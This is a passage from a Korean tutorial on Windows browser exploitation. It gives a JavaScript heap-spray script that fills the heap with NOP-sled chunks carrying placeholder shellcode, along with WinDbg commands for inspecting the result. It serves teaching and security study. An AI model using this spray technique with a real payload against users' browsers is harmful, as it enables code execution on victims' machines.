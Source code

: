 			alert("Alloc Done!");
		</script>
	</body>
	</html>
	
이 코드를 실행한 뒤 이번에는 Windbg로 메모리 값을 살펴보겠습니다.

	s -a 0x00000000 L?0x7fffffff "HACK"

<figure>
  <img data-action="zoom" src='{{ "/assets/images/windows/0x0d_4.png" | relative_url }}' alt='[그림 1-4]'>
</figure>

먼저, 헤더부분을 보면 08 00 00 00에서 04 00 00 00으로 변환된 것을 확인할 수 있습니다.

그리고 본문을 살펴보면 우리가 걱정했던 NUll이 모두 사라진 것을 확인할 수 있습니다.

이제 Null 문제도 해결되었으니 본격적으로 Spray를 해보도록 하겠습니다.

###### Spray

Heap Spray는 Heap 전체에 내가 원하는 코드를 골고루 위치시켜서 예측 가능한 공간에 Payload를 구성하기 위한 기법이라고 했었죠?

Payload는 다수의 NOP과 Shell Code의 조합으로 한 덩어리를 구성할 겁니다.

이 덩어리들을 반복적으로 여러개를 할당해서 힙 메모리 전역에 할당해준다면 어떻게 될까요?

그럼 EIP를 제어할 때 쉘코드를 담고 있는 덩어리가 있는 곳으로 보낼 수 있겠죠.

위치가 조금 다르다고 해도 NOP으로만 점프하도록 만들 수 있다면, Shell Code가 실행될 수 있을 겁니다.

Spray 수행을 위해 다음과 같이 코드를 구성했습니다.

	
	<html>
	<script>

	ShellCode = unescape('%u4148%u4B43');

	chunk = '';
	chunksize = 0x1000;
	num_chunk = 200;

	for(count=0; count < chunksize; count++){

		chunk += unescape('%u9090%u9090');
	}
	chunk = chunk.substring(0,chunksize - ShellCode.length);
	testArr = new Array();

	for (count=0; count < num_chunk; count++){
	 testArr[count] = ShellCode + chunk;
	}

	alert("Spray Done!");
	</script>
	</html>
	
한 덩어리의 크기가 0x1000인 덩어리(NOP+Shellcode) 200개를 메모리에 할당하도록 구성된 코드입니다.

시작 위치를 살펴보기 쉽게 하기 위해서 ShellCode+NOP 형태로 구성하였습니다.
